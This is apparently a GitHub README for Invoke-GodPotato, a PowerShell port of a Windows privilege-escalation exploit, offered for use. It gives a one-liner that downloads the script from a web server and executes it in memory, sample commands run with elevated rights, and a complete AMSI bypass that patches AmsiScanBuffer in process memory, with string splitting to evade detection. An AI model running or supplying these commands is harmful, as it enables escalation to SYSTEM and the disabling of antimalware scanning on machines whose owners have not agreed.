 # Invoke-GodPotato
## Foreword
Highly inspirated by 
- https://github.com/S3cur3Th1sSh1t/PowerSharpPack/blob/master/PowerSharpBinaries/Invoke-BadPotato.ps1
- https://github.com/BeichenDream/GodPotato/tree/main
 
<br />

## Basic Usage
First of all, you have to load the powershell script into memory. You can do that however you want. Here are two examples:
```powershell
# Load into memory remotely from webserver
(New-Object Net.WebClient).DownloadString('http://192.168.1.1/Invoke-GodPotato.ps1') | IEX

# Load into memory from local file
. .\Invoke-GodPotato.ps1
```
Now you can execute commands using cmd.exe or powershell.
```powershell
Invoke-GodPotato "cmd /c whoami"
Invoke-GodPotato "powershell -enc dwBoAG8AYQBtAGkA"
```

<br />

## Troubleshooting
Dont rage if you get an error like:
```powershell
Invoke-GodPotato : The term 'Invoke-GodPotato' is not recognized as the name of a cmdlet, function, script file, or
operable program. Check the spelling of the name, or if a path was included, verify that the path is correct and try
again.
At line:1 char:1
+ Invoke-GodPotato
+ ~~~~~~~~~~~~~~~~
    + CategoryInfo          : ObjectNotFound: (Invoke-GodPotato:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
```
This is simply an AMSI-Problem and you have to bypass it **correctly**. Read more at https://s3cur3th1ssh1t.github.io/Powershell-and-the-.NET-AMSI-Interface/. Basically, you just have to patch 
your current powershell process with:
```powershell
$Win32 = @"
using System;
using System.Runtime.InteropServices;
public class Win32 {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $Win32

$LoadLibrary = [Win32]::LoadLibrary("am" + "si.dll")
$Address = [Win32]::GetProcAddress($LoadLibrary, "Amsi" + "Scan" + "Buffer")
$p = 0
[Win32]::VirtualProtect($Address, [uint32]5, 0x40, [ref]$p)
$Patch = [Byte[]] (0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3)
[System.Runtime.InteropServices.Marshal]::Copy($Patch, 0, $Address, 6)
```
